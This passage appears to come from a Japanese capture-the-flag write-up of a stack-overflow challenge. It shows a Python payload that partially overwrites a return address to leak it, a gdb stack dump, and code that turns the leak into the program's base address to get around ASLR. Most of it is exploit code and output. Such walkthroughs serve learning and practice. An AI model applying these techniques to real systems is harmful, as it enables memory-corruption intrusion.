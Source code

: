 1回目はこんなペイロードになりました。<br><br>
リターンアドレスまでの終端`\0`がないので、アドレスがリークできています。<br>
また、Welcome～が出力されてるので無事ループできましたね！やったー🎉<br>

```python
payload = b'a' * 56
payload += b'\x26'
session.sendafter(b'> ', payload)  
[出力結果]
b'Message: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&RUUUU\nWelcome to the second pivot game!\n> '
```

1回目のpayload送信後のスタックの状態は以下になりました。

```bash
gdb-peda$ x/8gx $rsi
0x7fffffffdae0: 0x6161616161616161      0x6161616161616161
0x7fffffffdaf0: 0x6161616161616161      0x6161616161616161
0x7fffffffdb00: 0x6161616161616161      0x6161616161616161
0x7fffffffdb10: 0x6161616161616161      0x0000555555555226 ← 26になっている
```

<br>
気を付けないといけないことは、リターンアドレスに`\0`が含まれる場合`(例:0x609e7d00a22b)`は無理なケースだと思われます。<br>
<br>
ASLRに祈りましょう👼
<br><br>

# **2回目のループ**
<br>
aaaaa～\nWelcomeの間がリークしたアドレスになるので、バイト列を64ビットのアドレスとして解釈させます。。。

```python
prefix = b'Message: ' + b'a' * 56
leak_bytes = res.split(prefix)[1].split(b'\nWelcome')[0]
leak_addr = int.from_bytes(leak_bytes.ljust(8, b'\x00'), 'little')

hex(leak_addr): 0x555555555226
```

リークしたアドレスをもとにプログラムのベースアドレスを出します。

```bash
0x555555555226 <main+74>:       0x0000b8ffffff4ee8

$ readelf -a ./chall | grep main
000000003fd8  000100000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.34 + 0
    25: 00000000000011dc    86 FUNC    GLOBAL DEFAULT   13 main
```
```python
program_base = 0x555555555226 - 74 - 0x11dc

hex(program_base): 0x555555554000
```
